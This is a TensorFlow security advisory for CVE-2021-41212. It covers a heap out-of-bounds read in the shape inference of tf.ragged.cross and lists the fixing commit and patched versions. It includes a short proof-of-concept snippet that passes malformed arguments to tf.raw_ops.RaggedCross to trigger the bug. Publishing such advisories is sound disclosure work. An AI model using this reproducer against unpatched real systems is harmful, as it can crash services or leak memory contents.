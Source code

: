 ## TFSA-2021-183: Heap OOB read in `tf.ragged.cross`

### CVE Number
CVE-2021-41212

### Impact
The [shape inference code for `tf.ragged.cross`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/ragged_array_ops.cc#L64) can trigger a read outside of bounds of heap allocated array:

```python
import tensorflow as tf

@tf.function
def test():
  y = tf.raw_ops.RaggedCross(ragged_values=[],
                             ragged_row_splits=[],
                             sparse_indices=[[5]],
                             sparse_values=[],
                             sparse_shape=[5],
                             dense_inputs=[['a']],
                             input_order='RD',
                             hashed_output=False,
                             num_buckets=5,
                             hash_key=2,
                             out_values_type=tf.string,
                             out_row_splits_type=tf.int64)
  return y

test()
```

### Patches
We have patched the issue in GitHub commit [fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8](https://github.com/tensorflow/tensorflow/commit/fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
